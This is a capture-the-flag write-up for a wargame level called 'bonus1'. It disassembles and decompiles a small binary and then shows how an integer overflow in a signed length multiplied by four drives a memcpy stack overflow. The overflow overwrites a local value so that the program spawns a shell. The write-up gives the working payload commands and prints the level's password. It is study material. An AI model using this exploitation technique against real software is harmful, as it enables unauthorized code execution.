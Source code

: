 ## bonus1
Here is the objdump for bonus1
```
08048424 <main>:
 8048424:       55                      push   ebp
 8048425:       89 e5                   mov    ebp,esp
 8048427:       83 e4 f0                and    esp,0xfffffff0
 804842a:       83 ec 40                sub    esp,0x40
 804842d:       8b 45 0c                mov    eax,DWORD PTR [ebp+0xc]
 8048430:       83 c0 04                add    eax,0x4
 8048433:       8b 00                   mov    eax,DWORD PTR [eax]
 8048435:       89 04 24                mov    DWORD PTR [esp],eax
 8048438:       e8 23 ff ff ff          call   8048360 <atoi@plt>
 804843d:       89 44 24 3c             mov    DWORD PTR [esp+0x3c],eax
 8048441:       83 7c 24 3c 09          cmp    DWORD PTR [esp+0x3c],0x9
 8048446:       7e 07                   jle    804844f <main+0x2b>
 8048448:       b8 01 00 00 00          mov    eax,0x1
 804844d:       eb 54                   jmp    80484a3 <main+0x7f>
 804844f:       8b 44 24 3c             mov    eax,DWORD PTR [esp+0x3c]
 8048453:       8d 0c 85 00 00 00 00    lea    ecx,[eax*4+0x0]
 804845a:       8b 45 0c                mov    eax,DWORD PTR [ebp+0xc]
 804845d:       83 c0 08                add    eax,0x8
 8048460:       8b 00                   mov    eax,DWORD PTR [eax]
 8048462:       89 c2                   mov    edx,eax
 8048464:       8d 44 24 14             lea    eax,[esp+0x14]
 8048468:       89 4c 24 08             mov    DWORD PTR [esp+0x8],ecx
 804846c:       89 54 24 04             mov    DWORD PTR [esp+0x4],edx
 8048470:       89 04 24                mov    DWORD PTR [esp],eax
 8048473:       e8 a8 fe ff ff          call   8048320 <memcpy@plt>
 8048478:       81 7c 24 3c 46 4c 4f    cmp    DWORD PTR [esp+0x3c],0x574f4c46
 804847f:       57
 8048480:       75 1c                   jne    804849e <main+0x7a>
 8048482:       c7 44 24 08 00 00 00    mov    DWORD PTR [esp+0x8],0x0
 8048489:       00
 804848a:       c7 44 24 04 80 85 04    mov    DWORD PTR [esp+0x4],0x8048580
 8048491:       08
 8048492:       c7 04 24 83 85 04 08    mov    DWORD PTR [esp],0x8048583
 8048499:       e8 b2 fe ff ff          call   8048350 <execl@plt>
 804849e:       b8 00 00 00 00          mov    eax,0x0
 80484a3:       c9                      leave
 80484a4:       c3                      ret
 80484a5:       90                      nop
 80484a6:       90                      nop
 80484a7:       90                      nop
 80484a8:       90                      nop
 80484a9:       90                      nop
 80484aa:       90                      nop
 80484ab:       90                      nop
 80484ac:       90                      nop
 80484ad:       90                      nop
 80484ae:       90                      nop
 80484af:       90                      nop
```
```clike=
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

int main(int argc, char **argv)
{
    int atoi_ret;
    char buf[40]; // we allocated 64 bytes at 804842a, - atoi_res size (4) - esp offset (20)
    
    // 8048438
    atoi_ret = atoi(argv[1]);
    if (atoi_ret <= 9)
    {
        int len;
        
        // 8048453
        len = atoi_res * 4;
        
        // 8048473
        memcpy(buf, argv[2], len);
        
        if (atoi_ret != 1464814662) // or 0x574f4c46
            return 1;
        else
            execl("/bin/sh", "sh");
    }
    else
        return 1;
}
```

Based on instructions `804843d` and `8048464`, we are able to determine the sizes and position of the `atoi_ret` and the `buf` variables. They are positioned next to each other at `esp + 0x3c` for `atoi_res` and `esp + 0x14` for `buf`. Which means `buf` needs at least 41 bytes to overwrite`atoi_ret`. This is not possible through normal input because we are capped at 9 for the atoi, which makes our max input length `9 * 4 = 36` bytes long when we put the largest possible number.

However, there is not restrictions on the minimum value, which may cause overflow when I multiply the minimum value by 4. As we can see, the length of memcpy is stored in `ecx` when the user inputs `-2000000000 asd`. The system tries to multiply -2000000000 by 4 which resulted in a large positive number, as the real result needs more than 8 bytes to store.

And since we can copy a big length now, we can try to overwrite `atoi_ret` with a `argv[2]` of 41 bytes.
```
-2000000000 `python -c "print 'B' * 41"`
```
![image](https://hackmd.io/_uploads/r1bRMiM8T.png)

Now to really determine how big of a string we want to copy. Through some trials I observed the overflow wraps around the `MIN_INT / 4 - n` like so. As we can see, every digit we deduct from MIN_INT, we will deduct 4 from MAX_INT in the output.
When we try `MIN_INT / 2` however, the behaviour changes
```
MIN_INT / 4 - 1 -> MAX_INT - 3
MIN_INT / 4 - 2 -> MAX_INT - 7
MIN_INT / 4 - 3 -> MAX_INT - 11
MIN_INT / 4 - 4 -> MAX_INT - 15
...
...

MIN_INT / 2 -> 0
MIN_INT / 2 + 1 -> 4
MIN_INT / 2 + 2 -> 8
MIN_INT / 2 + 3 -> 12
```
We can use this to slowly adjust our memcpy length to at 64 bytes, which our input needs to be `MIN_INT / 2 + 16` or `
```
-1073741808 `python -c "print 'B' * 41"`
```

As we can see, we successfully overwritten `atoi_res` to our dummy input. Now we have to overwrite it with the desired input which is `0x574f4c46`.
![image](https://hackmd.io/_uploads/BkOytszLa.png)

After changing the input to the one below, 
```
-1073741808 `python -c "print 'B' * 40 + '\x57\x4f\x4c\x46'[::-1]"`
```

We are able to get the password for the next level`579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245`

![image](https://hackmd.io/_uploads/Hkq1qiMUa.png)

